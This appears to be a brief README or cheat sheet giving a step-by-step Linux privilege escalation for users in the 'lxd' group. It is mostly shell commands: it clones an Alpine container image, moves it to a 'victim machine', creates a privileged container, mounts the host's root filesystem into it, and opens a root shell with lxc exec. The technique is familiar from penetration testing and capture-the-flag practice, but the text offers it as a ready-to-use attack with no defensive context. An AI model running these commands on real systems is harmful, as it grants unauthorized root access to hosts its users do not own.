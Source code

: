How to escalate priviledge when user have `lxd` group permission.
## Prepare

Download and create image (whatever alpine image still ok)
```bash
git clone https://github.com/lxd-images/alpine-3-7-apache-php5-6
cd alpine-3-7-apache-php5-6
cat alpine-3-7-apache-php5-6.tar.bz2.* > alpine-3-7-apache-php5-6.tar.bz2
```

## Transfer image to victim machine ( via web, copy)
## Escalate Priviledge
- Init the image:
```bash
lxc init IMAGENAME CONTAINERNAME -c security.privileged=true
```

_Ex: lxc init myimage strongbad -c security.privileged=true_

- Mount `root` directory to container
```bash
lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true
```

_Ex: lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true_

- Start container
```bash
lxc start CONTAINERNAME
```
_Ex: lxc start strongbad_
```sh
lxc exec CONTAINERNAME /bin/sh
```

_Ex: lxc exec strongbad /bin/sh_

- We'll then run just a few more commands to mount our storage and verify we've escalated to root:
```sh
id
cd /mnt/root/root
```
